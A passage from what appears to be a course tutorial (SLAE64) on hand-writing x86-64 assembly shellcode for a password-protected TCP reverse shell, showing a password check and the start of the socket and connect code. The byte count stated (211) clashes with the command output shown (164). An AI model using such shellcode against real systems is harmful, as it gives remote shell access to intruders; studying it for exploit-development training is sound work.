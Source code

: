         xor rcx, rcx
        mov cl, [rel pass_len]
        lea rdi, [rel password]
        cld
        repz cmpsb
        jne exit

        ; spawn the shell

    exit:
        mov rax, 60
        syscall

Answer: you should pick the second option.

Complete shellcode
------------------

At this point we have a complete shellcode for a password-protected TCP reverse shell! Yay! But if you assemble this shellcode you will see it's full of null bytes (see below). We'll take care of that in the next section.

Regarding the shellcode size right now we have 211 bytes. This can be improved.

    $ objdump -d reverse-shell-pass.o | grep -P ":\t" | cut -f2 | tr -d ' \n' | sed -e 's/../\\x&/g' | grep -o x | tr -d '\n' | wc -c
    164

Unoptimised shellcode:

    global _start

    _start:
        jmp real_start
        password: db "pass"
        pass_len: db $-password

    real_start:
    socket:
        ; sock = socket(AF_INET, SOCK_STREAM, 0)
        ; AF_INET = 2
        ; SOCK_STREAM = 1
        ; __NR_socket = 41

        mov rax, 41
        mov rdi, 2
        mov rsi, 1
        mov rdx, 0
        syscall

        mov rdi, rax

    connect:
        ; server.sin_family = AF_INET;    short
        ; server.sin_port = htons(4444);    unsigned short
        ; server.sin_addr.s_addr = inet_addr("127.0.0.1");    unsigned long
        ; bzero(&server.sin_zero, 8);
        ; AF_INET = 2
        ;
        ; https://beej.us/guide/bgnet/html/multi/sockaddr_inman.html
        ; struct sockaddr_in {
        ;     short            sin_family;
        ;     unsigned short   sin_port;
        ;     struct in_addr   sin_addr;
        ;     char             sin_zero[8];
        ; };
        ;
        ; connect(sock, (struct sockaddr *)&server, sockaddr_len)
        ; __NR_connect = 42


[man_2_socket]: https://linux.die.net/man/2/syscall
[man_2_connect]: https://linux.die.net/man/2/bind
[man_2_dup2]: https://linux.die.net/man/2/dup2
[man_2_execve]: https://linux.die.net/man/2/execve
[man_2_read]: https://linux.die.net/man/2/read
[man_3_stdin]: https://linux.die.net/man/3/stdin
[beej_sockaddr_in]: https://beej.us/guide/bgnet/html/multi/sockaddr_inman.html
[endianness]: https://en.wikipedia.org/wiki/Endianness
[intel_sdm]: https://software.intel.com/en-us/articles/intel-sdm
[felixcloutier_x86]: https://www.felixcloutier.com/x86/
[cdq]: https://www.felixcloutier.com/x86/cwd:cdq:cqo
[SLAE64]: https://www.pentesteracademy.com/course?id=7